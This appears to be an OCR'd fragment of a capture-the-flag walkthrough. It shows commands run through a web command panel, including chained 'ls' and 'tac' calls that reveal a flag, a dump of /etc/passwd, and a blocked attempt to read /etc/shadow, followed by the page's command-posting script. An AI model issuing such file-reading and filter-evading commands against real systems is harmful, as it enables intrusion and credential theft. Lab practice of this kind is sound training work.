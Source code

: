 ```
cd ..; ls; tac flag5.txt

Command results

avengers
flag5.txt
d335e2d13f36558ba1e67969a1718af7


tac /etc/passwd

groot:x:1001:1001:,,,:/home/groot:/bin/bash
ftp:x:112:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mysql:x:111:115:MySQL Server,,,:/nonexistent:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
games:x:5:60:games:/usr/games:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
sys:x:3:3:sys:/dev:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash

tac /etc/shadow
Command disallowed


   <script>
      async function runCommand(commandStr) {
        return new Promise(async function(resolve, reject) {
        /*  $.getJSON("/command/" + command, function(result){
            return resolve(result)
          })*/
        

		$.post('/command', { command: commandStr }, async function(response) {
        	  return resolve(response)
		})
	})
      
      }
```
